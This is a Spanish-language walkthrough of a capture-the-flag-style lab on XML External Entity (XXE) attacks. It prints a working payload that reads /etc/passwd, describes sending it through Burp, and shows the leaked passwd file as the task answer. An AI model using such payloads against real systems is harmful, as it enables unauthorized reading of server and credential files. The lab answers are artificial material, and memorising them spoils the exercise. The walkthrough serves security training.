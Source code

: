 ```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Aquí nuevamente, estamos definiendo una ENTIDAD con el nombre `read`, pero la diferencia es que estamos configurando el valor `SYSTEM`y la ruta del archivo.

Si usamos esta carga útil, un sitio web vulnerable a XXE (normalmente) mostraría el contenido del archivo `/etc/passwd`.

De manera similar, podemos usar este tipo de carga útil para leer otros archivos, pero muchas veces puede fallar al leer los archivos de esta manera o el motivo de la falla podría ser el archivo que está tratando de leer.

1. Pruebe la carga útil mencionada en la descripción en el sitio web.

## [](#day-4-xml-external-entity-exploiting)[Día 4] Entidad externa XML: explotación

Ahora veamos algunas cargas útiles en acción. La carga útil que usaré es la que vimos en la tarea anterior.

1. Veamos cómo se vería el sitio web si intentáramos usar la carga útil para mostrar el nombre.

[![](https://user-content.gitlab-static.net/07c31b91af43e3be6499a3497bc324e7a172ca8a/68747470733a2f2f692e696d6775722e636f6d2f4f4858587869342e706e67)](https://user-content.gitlab-static.net/07c31b91af43e3be6499a3497bc324e7a172ca8a/68747470733a2f2f692e696d6775722e636f6d2f4f4858587869342e706e67)

En el lado izquierdo, podemos ver la solicitud de eructo que se envió con la carga útil codificada en la URL y en el lado derecho podemos ver que la carga útil pudo mostrar correctamente el nombre`falcon feast`

2. Ahora tratemos de leer el`/etc/passwd`

[![](https://user-content.gitlab-static.net/d7d3ad4773de6374bec60b30b807b29bcab7997c/68747470733a2f2f692e696d6775722e636f6d2f30393247534c7a2e706e67)](https://user-content.gitlab-static.net/d7d3ad4773de6374bec60b30b807b29bcab7997c/68747470733a2f2f692e696d6775722e636f6d2f30393247534c7a2e706e67)

1. Intenta mostrar tu propio nombre usando cualquier carga útil.

`No answer needed`

2. Vea si puede leer el /etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
```